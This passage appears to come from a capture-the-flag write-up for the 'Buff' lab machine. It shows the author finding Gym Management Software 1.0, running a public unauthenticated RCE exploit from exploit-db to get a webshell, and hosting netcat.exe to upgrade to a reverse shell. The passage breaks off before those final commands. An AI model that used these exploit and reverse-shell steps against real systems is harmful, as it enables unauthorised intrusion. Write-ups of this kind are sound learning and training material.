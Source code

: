 The website represents somewhat of a fitness page with a login option.

![webpage](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/webpage.png)

Clicking on **Contact** button reveals useful information.           
The website has been built using ``Gym Management Software 1.0``

![contact](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/contact.png)

### Gaining a low-privileged shell

While searching the software on **exploitdb** We find a RCE vulnerability ...

![exploitdb](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/buff-writeup/exploitdb.png)

I am going to use the 4th exploit which appears to be an ``Unauthenticated Remote Code Execution`` Vulnerability.

```sh
root@kali:~# searchsploit -m /usr/share/exploitdb/exploits/php/webapps48506.py
  Exploit: Gym Management System 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48506
     Path: /usr/share/exploitdb/exploits/php/webapps/48506.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /root/48506.py


root@kali:~# python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG
�
buff\shaun
```

I have gained an initial shell which is somewhat unstable and not very helpful for lateral movement so I'm going to upload netcat and grab myself a stable shell.

### Upgrading to a stable shell

```sh
root@kali:/usr/share/windows-resources/binaries# python3 -m http.server 80
```

Using python3 **http.server** I can host a copy of netcat.exe which is located on ``/usr/share/windows-binaries/nc.exe`` on any Kali host.

On the remote machine I can use the following commands to download and execute netcat in order to give myself a reverse shell :
